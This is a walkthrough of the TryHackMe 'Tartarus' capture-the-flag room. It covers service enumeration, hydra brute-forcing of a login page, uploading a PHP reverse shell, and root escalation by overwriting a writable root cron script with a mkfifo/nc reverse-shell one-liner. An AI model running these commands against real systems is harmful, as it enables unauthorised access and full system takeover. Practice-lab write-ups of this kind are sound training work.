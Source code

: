 # Tartarus

[<img src=".Images/tartarus.png" height="199">](https://tryhackme.com/room/tartaraus)

*"This is a beginner box based on simple enumeration of services and basic privilege escalation techniques."* -[csenox](https://tryhackme.com/p/csenox)

<img src="https://tryhackme-badges.s3.amazonaws.com/Gev.png" alt="TryHackMe">

1. [Scan/Enumeration](#scan/enumeration)
2. [Gain Shell](#gain-shell)
3. [Privilege Escalation](#privilege-escalation)

******

## [Scan/Enumeration]

We can start by doing an nmap scan.

`nmap -A -oN tartarus.nmap <ip>`

![tartarus-1](.Images/tartarus-1.png)

We have an FTP on port 21, SSH service on port 22 and Apache web server on port 80. The results say "Anonymous FTP login allowed". Let's connect to FTP anonymously. We can download the files with the get command.
User: anonymous
Pass: blank

`ftp <ip>`

![tartarus-2](.Images/tartarus-2.png)

We found a file named test.txt. We can try to navigate inside the shared directory on FTP.

`cd ..`
`cd ...`

![tartarus-3](.Images/tartarus-3.png)

We found another file called yougotgoodeyes.txt. Let's check these files.

![tartarus-4](.Images/tartarus-4.png)

/sUp3r-s3cr3t should be a website directory. Now we can start checking the website. If we look at the /sUp3r-s3cr3t directory, we can see that there is a login page. We can try bruteforce here, but first, let's try looking at the robots.txt file.

![tartarus-5](.Images/tartarus-5.png)

We found /admin-dir directory.

![tartarus-6](.Images/tartarus-6.png)

Let's download credentials.txt and userid file. The credentials.txt file looks like a password list and the userid file looks like a list of usernames. We can use these files to bruteforce the login page. We will use the hydra tool for bruteforce.

First we need to find out what kind of request we sent. We can go to the / sUp3r-s3cr3t directory, open the Inspect Element section and go to the Network section. Now we can try to login with random credentials. After doing this, we will see a POST request in the Network section. We can right click on this request and click Edit and Resend. Here, the Request Body field at the bottom right of the screen gives the information we need. [These are valid for firefox.](https://bentrobotlabs.wordpress.com/2018/04/02/web-site-login-brute-forcing-with-hydra/)

`hydra -L userid -P credentials.txt <IP> http-post-form "/sUp3r-s3cr3t/authenticate.php:username=^USER^&password=^PASS^:F=Incorrect"`

![tartarus-7](.Images/tartarus-7.png)

******

## [Gain Shell]

We can now login to the site using this information.

![tartarus-8](.Images/tartarus-8.png)

Here is a page where we can upload files. We can try upload [php_reverse_shell](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php). We can download the file and upload it after we write our own IP and port(49th and 50th lines). 

![tartarus-9](.Images/tartarus-9.png)

We uploaded the file. We need to run the file to get a shell. To run the file, we need to find where it is. We will do directory scan with gobuster to find it. I will use [common.txt](https://github.com/v0re/dirb/blob/master/wordlists/common.txt) list.

`gobuster dir -u http://<IP>/sUp3r-s3cr3t/ -w common.txt`

![tartarus-10](.Images/tartarus-10.png)

If we look at the images directory, we will see that there is a directory named uploads in it.

![tartarus-11](.Images/tartarus-11.png)

We will find the file we uploaded in it.

![tartarus-12](.Images/tartarus-12.png)

If we run the file while listening to the port with nc, we will get a shell.

`nc -nvlp <PORT>`

![tartarus-13](.Images/tartarus-13.png)

******

## [Privilege Escalation]

First of all, let's make shell more beautiful.

`export TERM=xterm`

`python -c 'import pty; pty.spawn("/bin/bash")'`

![tartarus-14](.Images/tartarus-14.png)

If we look at the /etc/crontab file, we will see that the file named cleanup.py runs periodically by using root privileges.

![tartarus-15](.Images/tartarus-15.png)

Let's look inside the file named cleanup.py.

![tartarus-16](.Images/tartarus-16.png)

The file regularly cleans the /home/cleanup/ directory. When we look at the file with the "ls -la" command, we see that we have write authority. So if we change the file with a reverse shell and wait a bit, we can get a shell with root privilege. I will write python reverse shell into the file with the echo command.

`echo 'import os; os.system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <IP> <PORT>  >/tmp/f")' > cleanup.py`

![tartarus-17](.Images/tartarus-17.png)

Now we need to listen to the port with nc and wait. When the file runs again, we will get a shell with root privilege.

![tartarus-18](.Images/tartarus-18.png)

And now we are root user.

